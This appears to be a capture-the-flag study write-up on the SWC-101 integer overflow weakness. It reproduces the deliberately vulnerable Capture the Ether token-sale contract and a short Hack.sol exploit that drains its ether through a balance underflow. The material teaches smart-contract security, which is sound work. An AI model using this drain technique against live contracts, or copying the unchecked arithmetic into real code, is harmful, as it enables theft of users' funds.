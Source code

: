 # SWC 101
**Integer overflow leading into Ether theft**

### Example
## tokensalechallenge.sol

```solidity 
/*
 * @source: https://capturetheether.com/challenges/math/token-sale/
 * @author: Steve Marx
 */

pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] - numTokens >= 0);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}
```
Looking at the contract we can see that it is an older version of solidity
- where arithemetic underflow and overflow did not gave any errors, and 
- require logic `require(balanceOf[msg.sender] - numTokens >= 0)` indicates potential flawed logic/redundant check
> Point 33 [Security Pitfalls and Best Practices 101](https://secureum.substack.com/p/security-pitfalls-and-best-practices-101)

using these two flaws we can exploit the contract and drain the ETH from the contract with the following Hack.

## Hack.sol

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITokenSaleChallenge {
    function sell(uint256 numTokens) external;
}

contract Hack {
    ITokenSaleChallenge private target;

    constructor(address _target) {
        target = ITokenSaleChallenge(_target);
        target.sell(1);
    }
}
```
